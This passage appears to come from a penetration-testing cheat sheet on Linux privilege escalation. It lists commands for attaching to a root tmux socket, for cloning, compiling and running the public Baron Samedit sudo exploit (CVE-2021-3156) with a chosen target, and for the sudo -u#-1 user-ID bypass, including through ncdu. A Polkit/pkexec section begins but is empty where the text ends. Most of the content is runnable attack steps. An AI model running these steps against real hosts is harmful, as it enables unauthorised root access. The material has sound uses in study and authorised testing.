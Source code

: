 #### Attach to the tmux session and confirm root privileges
```Shell
tmux -S /shareds
```

```Shell
id
```

## Recent Zero Days
### Sudo
#### Sudo version 1.8.31
##### Check version
```Shell
sudo -V | head -n1
```
##### Clone exploit from GitHub and compile
```Shell
git clone https://github.com/blasty/CVE-2021-3156.git
```

```Shell
cd CVE-2021-3156
```

```Shell
make
```
##### Run exploit on host
```Shell
./sudo-hax-me-a-sandwich
```
Will require specifying target OS
##### Find out OS version (required for exploit)
```Shell
cat /etc/lsb-release
```
##### Run exploit on host (with target option identified)
```Shell
./sudo-hax-me-a-sandwich 1
```
#### Sudo version 1.8.28
##### See what commands can be executed w/ sudo
```Shell
sudo -l
```
##### Execute sudo w/ the binary that can be executed
```Shell
sudo -u#-1 id
```
#### Sudo version 1.8.27/1.8.21p2
##### Identify which sudo command can be executed
```Shell
sudo -l
```
(e.g., ncdu)
##### Execute the command w/ sudo
```Shell
sudo -u#-1 ncdu
b
```
### Polkit
#### Using pkexec to run commands as another user
```Shell
```